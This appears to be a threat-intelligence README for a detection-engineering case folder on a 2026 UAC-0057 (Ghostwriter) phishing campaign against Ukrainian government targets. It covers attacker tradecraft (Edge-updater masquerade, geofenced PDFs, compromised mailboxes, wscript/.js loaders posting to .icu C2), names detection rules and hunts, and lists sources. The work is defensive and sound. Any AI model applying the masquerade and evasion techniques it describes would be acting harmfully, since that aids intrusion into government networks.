- **Microsoft Edge Update masquerade is a 2025-2026 standard.** `MicrosoftEdgeUpdate.exe`, `EdgeApp.exe`, and tasks named like `MicrosoftEdgeUpdateTaskMachine` are now reused across multiple unrelated clusters (UAC-0057 here, others observed throughout 2026). The discriminator is **the install path** (genuine Edge updater lives under `C:\Program Files (x86)\Microsoft\EdgeUpdate\`) and the **task name suffix** (genuine tasks are `…Core` / `…UA`, attacker tasks omit the suffix and use `wscript.exe` as action).
- **Ukraine geofencing breaks sandbox triage.** Both the OYSTERFRESH chain and the parallel ESET FrostyNeighbor PicassoLoader chain serve a benign PDF if the requester IP is not Ukrainian. Sandboxes egressing from EU/US clouds will report a clean PDF — do not interpret that as a false alarm; route the sample to a Ukrainian-IP sandbox or detonate offline.
- **Compromised gov mailboxes are the cluster's initial-access pipeline, not commodity hosting.** Email gateway anti-phish that scores on sender reputation will not catch this; SPF/DKIM/DMARC will pass. The detection point is the **link + attachment** semantic, not the sender domain. Pair Defender for O365 Safe Links with a hunt on PDF attachments containing external URLs to ZIP archives.
- **Two loader families, one operator, same week — assume operational redundancy.** If you detect and block OYSTERFRESH, expect a PicassoLoader variant to arrive within days at the same victim — UAC-0057 runs both for survivability. Detection content should cover the **behaviour chain** (wscript.exe + .js + .icu HTTP POST) rather than only the specific loader fingerprint.

## What's in this folder

| File                                                                                              | Purpose                                                                                   |
| ------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------- |
| [`README.md`](./README.md)                                                                        | This document — the ground truth for the case.                                            |
| [`kill_chain.svg`](./kill_chain.svg)                                                              | Two-lane kill-chain diagram (victim host left, attacker infrastructure right) with footer anchors. |
| [`sigma/uac0057_wscript_js_from_archive.yml`](./sigma/uac0057_wscript_js_from_archive.yml)        | Sigma — `wscript.exe` executing `.js` from an archive-extraction path (process_creation).  |
| [`sigma/uac0057_edge_update_masquerade_runkey.yml`](./sigma/uac0057_edge_update_masquerade_runkey.yml) | Sigma — HKCU Run-key masquerade for `MicrosoftEdgeUpdate` / `EdgeApp` (registry_set).      |
| [`sigma/uac0057_scheduled_task_edge_update_masquerade.yml`](./sigma/uac0057_scheduled_task_edge_update_masquerade.yml) | Sigma — scheduled-task `MicrosoftEdgeUpdateTaskMachine` masquerade (process_creation).     |
| [`kql/uac0057_wscript_js_from_archive_post_to_icu.kql`](./kql/uac0057_wscript_js_from_archive_post_to_icu.kql) | KQL — `wscript.exe` + `.js` then HTTP POST to `*.icu` within 5 minutes (Defender XDR).      |
| [`kql/uac0057_run_key_edge_masquerade.kql`](./kql/uac0057_run_key_edge_masquerade.kql)            | KQL — Run-key masquerade hunt (`DeviceRegistryEvents`).                                    |
| [`kql/uac0057_icu_dns_post_correlation.kql`](./kql/uac0057_icu_dns_post_correlation.kql)          | KQL — DNS to `.icu` correlated with HTTP POST egress from same host.                       |
| [`yara/uac0057_oysterfresh_js_loader.yar`](./yara/uac0057_oysterfresh_js_loader.yar)              | YARA — OYSTERFRESH JS anchored on the stacked-transform decode chain and `.icu` strings.   |
| [`suricata/uac0057_icu_c2.rules`](./suricata/uac0057_icu_c2.rules)                                | Suricata — DNS, TLS SNI, HTTP host and HTTP POST anchors against the `.icu` C2 surface.     |
| [`hunts/peak_h1_wscript_js_from_archive.md`](./hunts/peak_h1_wscript_js_from_archive.md)          | PEAK H1 — retro hunt for `wscript.exe` + archive-derived `.js` in last 90 days.            |
| [`hunts/peak_h2_edge_update_masquerade_runkey.md`](./hunts/peak_h2_edge_update_masquerade_runkey.md) | PEAK H2 — Edge-update Run-key masquerade across the estate.                                |
| [`hunts/peak_h3_icu_post_cadence.md`](./hunts/peak_h3_icu_post_cadence.md)                        | PEAK H3 — sustained ~10-minute HTTP POST cadence to `.icu` egress.                          |
| [`iocs.csv`](./iocs.csv)                                                                          | Machine-readable IOC list with `type,value,context,confidence,source`.                     |

## Sources

- [CERT-UA advisory #6315762 — UAC-0057 Prometheus phishing campaign (22-May-2026)](https://cert.gov.ua/article/6315762)
- [The Hacker News — Ghostwriter Targets Ukraine Government Entities with Prometheus Phishing Malware (22-May-2026)](https://thehackernews.com/2026/05/ghostwriter-targets-ukraine-government.html)
- [The Hacker News — Ghostwriter Targets Ukrainian Government With Geofenced PDF Phishing, Cobalt Strike (14-May-2026)](https://thehackernews.com/2026/05/ghostwriter-targets-ukrainian.html)
- [ESET WeLiveSecurity — FrostyNeighbor fresh mischief: digital shenanigans (May 2026)](https://www.welivesecurity.com/en/eset-research/frostyneighbor-fresh-mischief-digital-shenanigans/)
- [SOC Prime — UAC-0057 Updates Its Toolkit with OYSTERFRESH, OYSTERSHUCK, and OYSTERBLUES (22-May-2026)](https://socprime.com/active-threats/uac-0057-updates-its-toolkit-with-oysterfresh-oystershuck-and-oysterblues/)
- [SecurityAffairs — Ghostwriter Is Back, Using a Ukrainian Learning Platform as Bait to Hit Government Targets (22-May-2026)](https://securityaffairs.com/192538/apt/ghostwriter-is-back-using-a-ukrainian-learning-platform-as-bait-to-hit-government-targets.html)
- [The Record — Belarus-linked hackers use fake training certificates to target Ukrainian officials (22-May-2026)](https://therecord.media/oysterfresh-belarus-linked-campaign-targets-ukraine)
- [SC Media — Belarus-linked Ghostwriter group targets Ukraine using Prometheus learning platform lures (May 2026)](https://www.scworld.com/brief/belarus-linked-ghostwriter-group-targets-ukraine-using-prometheus-learning-platform-lures)
- [CERT Polska — UNC1151 Roundcube CVE-2024-42009 mailbox-compromise campaign (June 2025)](https://cert.pl/en/posts/2025/06/unc1151-campaign-roundcube/)
- [Mandiant — UNC1151 Assessed with High Confidence to Have Links to Belarus (15-Nov-2021)](https://cloud.google.com/blog/topics/threat-intelligence/unc1151-linked-to-belarus-government)
- [HarfangLab — Gamaredon GammaDrop / GammaLoad via WinRAR CVE-2025-8088 (May 2026)](https://harfanglab.io/insidethelab/gamaredon-gammadrop-gammaload/)
- [Kaspersky Securelist — BO Team / Head Mare overlap and ZeroSSH backdoor against Russian organisations (Q1 2026)](https://securelist.ru/tr/boteam-campaign-zeronetkit-headmare/115429/)
